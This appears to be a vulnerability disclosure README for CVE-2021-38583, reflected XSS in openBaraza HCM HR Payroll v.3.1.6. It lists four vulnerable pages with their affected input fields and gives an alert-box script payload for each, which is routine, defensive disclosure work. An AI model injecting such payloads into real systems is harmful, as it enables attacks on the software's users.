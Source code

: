 # CVE-2021-38583 openBaraza HCM HR Payroll v.3.1.6 Reflected XSS vulnerability

openBaraza HCM HR Payroll v.3.1.6 does not properly neutralize user-controllable input, which allows reflected cross-site scripting (XSS) vulnerability on multiple pages. 

https://openbaraza.org

https://sourceforge.net/projects/obhrms/?source=directory


### Vulnerable pages:
---

http://serverip:9090/hr/subscription.jsp

affected: "number_of_employees" text box

payload: <script>alert('XSS')</script>

![subscription.jsp](https://raw.githubusercontent.com/charlesbickel/CVE-2021-38583/main/2021-08-11_11-57-29.gif)

---

http://serverip:9090/hr/application.jsp

affected: "surname", "first_name", "middle_name", "applicant_email", "phoneapplicant_phone", "identity_card", "language" text boxes

payload: <script>alert('XSS')</script>

![application.jsp](https://raw.githubusercontent.com/charlesbickel/CVE-2021-38583/main/2021-08-11_11-30-38.gif)

---

http://serverip:9090/hr/index.jsp?view=10:0:0&data=9

affected: "previous_salary", "expected_salary" text boxes

payload: <script>alert('XSS')</script>

![index.jsp?view=10:0:0&data=9](https://raw.githubusercontent.com/charlesbickel/CVE-2021-38583/main/2021-08-10_11-19-01.gif)

---

http://serverip:9090/hr/index.jsp?view=44:0:3&data={new}

affected: "self_rating" text box

payload: <script>alert('XSS')</script>

![index.jsp?view=44:0:3&data={new}](https://raw.githubusercontent.com/charlesbickel/CVE-2021-38583/main/2021-08-12_08-46-01.gif)

